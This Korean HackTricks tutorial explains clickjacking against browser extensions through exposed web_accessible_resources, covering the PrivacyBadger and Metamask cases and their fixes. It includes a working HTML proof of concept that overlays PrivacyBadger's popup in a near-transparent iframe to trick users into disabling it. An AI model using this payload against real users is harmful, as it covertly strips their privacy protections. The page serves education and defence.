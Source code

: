 # BrowExt - 클릭재킹

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>을 통해 **제로부터 영웅까지 AWS 해킹 배우기**!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하고 싶다면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [Discord 그룹](https://discord.gg/hRep4RUj7f)** 또는 [텔레그램 그룹](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)을 **팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

## 기본 정보

이 페이지는 브라우저 확장 프로그램의 클릭재킹 취약점을 악용할 것입니다.\
클릭재킹이 무엇인지 모르는 경우:

{% content-ref url="../clickjacking.md" %}
[clickjacking.md](../clickjacking.md)
{% endcontent-ref %}

확장 프로그램에는 **`manifest.json`** 파일이 포함되어 있으며 해당 JSON 파일에는 `web_accessible_resources` 필드가 있습니다. [Chrome 문서](https://developer.chrome.com/extensions/manifest/web\_accessible\_resources)에 따르면 다음과 같습니다:

> 이러한 리소스는 **`chrome-extension://[PACKAGE ID]/[PATH]`** URL을 통해 웹페이지에서 사용할 수 있으며, 이는 **`extension.getURL 메서드`**를 사용하여 생성할 수 있습니다. 화이트리스트에 등록된 리소스는 적절한 CORS 헤더가 포함된 상태로 제공되므로 XHR과 같은 메커니즘을 통해 사용할 수 있습니다.[1](https://blog.lizzie.io/clickjacking-privacy-badger.html#fn.1)

브라우저 확장 프로그램의 **`web_accessible_resources`**는 웹을 통해만 접근할 수 있는 것이 아니라 확장 프로그램의 고유한 권한과 함께 작동합니다. 이는 다음과 같은 기능을 수행할 수 있음을 의미합니다:

* 확장 프로그램의 상태 변경
* 추가 리소스 로드
* 브라우저와 일부 상호 작용

그러나 이 기능은 보안 위험을 야기합니다. **`web_accessible_resources`** 내의 리소스에 중요한 기능이 있는 경우, 공격자는 이 리소스를 외부 웹 페이지에 임베드할 수 있습니다. 이 페이지를 방문하는 의심스럽지 않은 사용자는 이 임베드된 리소스를 부적절하게 활성화할 수 있습니다. 이러한 활성화는 확장 프로그램 리소스의 권한과 기능에 따라 의도하지 않은 결과로 이어질 수 있습니다.

## PrivacyBadger 예시

확장 프로그램 PrivacyBadger에서는 `skin/` 디렉토리가 다음과 같이 `web_accessible_resources`로 선언된 취약점이 식별되었습니다(원본 [블로그 게시물](https://blog.lizzie.io/clickjacking-privacy-badger.html) 참조):
```json
"web_accessible_resources": [
"skin/*",
"icons/*"
]
```
이 구성은 잠재적인 보안 문제로 이어졌습니다. 구체적으로 브라우저에서 PrivacyBadger 아이콘과 상호 작용할 때 렌더링되는 `skin/popup.html` 파일이 `iframe` 내에 임베드될 수 있습니다. 이 임베딩은 사용자를 속여 "이 웹사이트의 PrivacyBadger 비활성화"를 우연히 클릭하도록 유도할 수 있습니다. 이러한 조치는 PrivacyBadger 보호를 비활성화하고 사용자를 증가된 추적에 노출시킴으로써 사용자의 개인 정보를 침해할 수 있습니다. 이 취약점의 시각적인 시연은 [**https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm**](https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm)에서 제공된 ClickJacking 비디오 예제에서 확인할 수 있습니다.

이 취약점을 해결하기 위해 간단한 해결책이 구현되었습니다: `web_accessible_resources` 목록에서 `/skin/*`를 제거하는 것입니다. 이 변경으로 인해 `skin/` 디렉토리의 내용이 웹 접근 가능 리소스를 통해 액세스되거나 조작될 수 없도록 위험을 효과적으로 완화했습니다.

수정 방법은 간단합니다: **`web_accessible_resources`에서 `/skin/*`를 제거합니다**.

### PoC
```html
<!--https://blog.lizzie.io/clickjacking-privacy-badger.html-->

<style>
iframe {
width: 430px;
height: 300px;
opacity: 0.01;
float: top;
position: absolute;
}

#stuff {
float: top;
position: absolute;
}

button {
float: top;
position: absolute;
top: 168px;
left: 100px;
}

</style>

<div id="stuff">
<h1>
Click the button
</h1>
<button id="button">
click me
</button>
</div>

<iframe src="chrome-extension://ablpimhddhnaldgkfbpafchflffallca/skin/popup.html">
</iframe>
```
## Metamask 예시

[**Metamask에서의 ClickJacking에 대한 블로그 포스트는 여기에서 찾을 수 있습니다**](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9). 이 경우 Metamask는 취약점을 수정하여 액세스에 사용된 프로토콜이 **`https:`** 또는 **`http:`** (예: **`chrome:`**가 아님)인지 확인함으로써 취약점을 해결했습니다:

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

Metamask 확장 프로그램에서 **다른 ClickJacking이 수정**된 예는 사용자가 **의심스러운 페이지를 클릭하여 화이트리스트에 추가**할 수 있었던 것입니다. 이는 `“web_accessible_resources”: [“inpage.js”, “phishing.html”]` 때문에 피싱으로 의심되는 페이지가 취약점을 가지고 있었기 때문입니다. 이 페이지는 Clickjacking에 취약했기 때문에 공격자는 희생자가 주의를 기울이지 않고 화이트리스트에 추가하도록 유도할 수 있었고, 그 후에 피싱 페이지로 돌아가 화이트리스트에 추가될 수 있었습니다.

## Steam Inventory Helper 예시

브라우저 확장 프로그램에서의 **XSS**가 **ClickJacking** 취약점과 연계된 방법을 확인하려면 다음 페이지를 확인하세요:

{% content-ref url="browext-xss-example.md" %}
[browext-xss-example.md](browext-xss-example.md)
{% endcontent-ref %}

## 참고 자료

* [https://blog.lizzie.io/clickjacking-privacy-badger.html](https://blog.lizzie.io/clickjacking-privacy-badger.html)
* [https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9)
